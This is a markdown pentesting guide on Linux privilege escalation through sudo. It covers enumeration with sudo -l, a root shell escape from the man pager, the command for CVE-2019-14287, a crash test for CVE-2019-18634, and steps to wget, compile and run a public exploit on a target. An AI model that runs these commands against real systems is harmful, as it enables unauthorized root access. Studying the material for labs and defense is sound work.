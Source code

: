 # Linux Privilege Escalation: SUDO Privileges

## Contents
- [What are we looking for?](#what-are-we-looking-for)
- [Standard Local Enumeration](#standard-local-enumeration)
  - [`sudo -l`](#sudo--l)
  - [Results](#results)
  - [The Vulnerability](#the-vulnerability)
- [The Hack: `sudo man [command]`](#the-hack-sudo-man-command)
- [Security Bypass (sudo < 1.8.28)](#security-bypass-sudo--1828)
- [pwfeedback (sudo < 1.8.26)](#pwfeedback-sudo--1826)

## What are we looking for?
- We are looking for poorly configured binaries (executables) on the compromised Linux system.
  - We can use these binaries to elevate our privileges
- Many binaries in Linux can be used to execute specific commands.
  - If a binary has sudo privileges attached (without a password), you may be able to use that binary to spawn a shell (thus gaining root privs). 

## Standard Local Enumeration

### `sudo -l`
```
cat /etc/sudoers     #find out what other users are configured on the system
sudo -l
```
-  `-l` (lowercase "L" for list) list out the sudo commands the current user can run.
-  [From the man page](https://linux.die.net/man/8/sudo): The `-l` (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

### Results
- Assume we found a binary we can run with sudo privileges: `/sur/bin/man`
- And the "NOPASSWD" option has been set
- So we can run that command as root without any password or authentication
- This is a misconfiguration we can exploit (see below).
- Use [GTFOBins](https://gtfobins.github.io/) to look up how to compromise the binary file you and use with sudo.

### The Vulnerability
- The `man` utility (to display "man pages") allows you to spawn a Bash shell via the utility itself.
- The normal way you'd open a man page is `man [command]`.
  - This will open the man page with the current user's privileges.
- But if you can run `/usr/bin/man` with root privs using `sudo` (because it's set with "NOPASSWD"), then you can open a shell as root.
  - Preface the `man` comand with `sudo`. That runs the command with root privileges: `sudo man [command]`
  - And since the system is configured to run `/usr/bin/man` via sudo without a password, you are not prompted for any authentication. 

## [The Hack](https://gtfobins.github.io/gtfobins/man/#sudo): `sudo man [command]`
- Open a man page (any man page) with sudo: `sudo man [command]` 
- It parses out the contents of the man page with "more"
- While the man page is displayed, you can enter commands with the "!"
  - Example:  `!/bin/bash`
  - This is a function of more not of man.
  - [From the more man page](https://man7.org/linux/man-pages/man1/more.1.html): `!command` or `:!command` : Execute command in a subshell.
  - `less` works the same way.
- This results in a Bash session as root (the owner of the man process from which the shell was spawned).

## [Security Bypass (sudo < 1.8.28)](https://www.exploit-db.com/exploits/47502) 
> CVE-2019-14287

### 1. Check for the user sudo permissions
- You can either run a `sudo -l` or `cat` out the **/etc/sudoers/** file.
- You are looking for this configuration: 
```
# from sudo -l: 
User hacker may run the following commands on kali:
  (ALL, !root) /bin/bash

# or in /etc/sudoers:
hacker ALL=(ALL,!root) /bin/bash
```

### 2. Exploit: 
- Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo privilege.
- `-u#-1` returns as 0 which is root's id
- And then /bin/bash is executed with root permission:
```
sudo -u#-1 /bin/bash
```

### 3. [TryHackMe Walk-Through](https://tryhackme.com/r/room/sudovulnsbypass)

## [pwfeedback (sudo < 1.8.26)](https://www.exploit-db.com/exploits/47995)
> CVE-2019-18634

If pwfeedback is enabled in sudoers, you may be able to escalate privileges through buffer overflow.
- Sudo's pwfeedback option can be used to provide visual feedback when the user is inputting their password.
- For each key press, an asterisk is printed. This option was added in response to user confusion over how the standard Password: prompt disables the echoing of key presses.
- While pwfeedback is not enabled by default in the upstream version of sudo, some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.
- Due to a bug, when the pwfeedback option is enabled in the sudoers file, a user may be able to trigger a stack-based buffer overflow.
- This bug can be triggered even by users not listed in the sudoers file.
- There is no impact unless pwfeedback has been enabled.

### 1. Check for the configuration: pwfeedback
- Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled.
- You can try a `sudo -l` or `cat /etc/sudoers` but if you cannot access sudo because of perms, just run sudo command (any command; e.g., `sudo su root`).
- If you get an asterisk everytime you type a letter in for the password, pwfeedback is enabled.
- If sudo is < 1.8.26, then the hack should work.
```
sudo -l
# If the results include pwfeedback, like below, sudo is vulnerable.
Matching Defaults entries for millert on linux-build:
insults, pwfeedback, mail_badpass, mailerpath=/usr/sbin/sendmail

User millert may run the following commands on linux-build:
(ALL : ALL) ALL
```

### 2. You can check to see if the vulnerability can be exploited with:
```
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
```
- If that returns `Password: Segmentation fault`, it is exploitable.
- This perl command does not actually exploit the vulnerability.
  - We use Perl to generate a lot of information which we're then passing into the sudo command as a password using the pipe (|) operator.
  - This doesn't actually give us root permissions -- instead it shows us an error message: Segmentation fault, which basically means that we've tried to access some memory that we weren't supposed to be able to access.
  - This proves that a buffer overflow vulnerability exists, but it doesn't exploit it. 

### 3. Exploit:
- [Actual Exploit](https://github.com/saleemrashid/sudo-cve-2019-18634) | [TryHackMe Write-Up](https://tryhackme.com/r/room/sudovulnsbof)

```
#Download the C code onto your target machine (because you have to compile on the target machine).
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/refs/heads/master/exploit.c

# Compile that file on the target machine: 
gcc -o exploit exploit.c 

# Execute it:
./exploit
```
